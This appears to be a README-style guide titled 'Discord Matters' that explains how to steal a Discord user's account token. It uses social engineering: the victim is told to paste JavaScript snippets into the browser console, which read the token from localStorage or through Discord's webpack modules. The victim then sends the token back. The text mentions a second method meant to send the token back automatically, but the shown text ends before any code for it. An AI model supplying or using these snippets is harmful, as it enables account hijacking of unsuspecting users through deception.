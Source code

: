 ## Discord Matters

### Grabbing the token
Our first step is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. This involves a little social engineering as it requires either you or the victim to run the code and grab the token.

- Method 1: 

Get user to copy and paste this code into browser and send you back the token. Token will be alerted in window and logged in console. 

``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```

Make sure to tell the user to ```toggle device toolbar``` with the button below or else the code will not fetch.

Before: ![](https://i.imgur.com/AfWZAQl.jpeg)
After: ![](https://i.imgur.com/zl2sHCk.jpeg)

Alternative codes, follow the same steps as above.

```javascript:document.getElementsByTagName("body")[0].innerHTML = localStorage.token;```

```Object.values(webpackJsonp.push([[],{['']:(_,e,r)=>{e.cache=r.c}},[['']]]).cache).find(m=>m.exports&&m.exports.default&&m.exports.default.getToken!==void 0).exports.default.getToken()```

- Method 2:

Get user to copy and paste this code into browser and token will be automatically sent back to you.
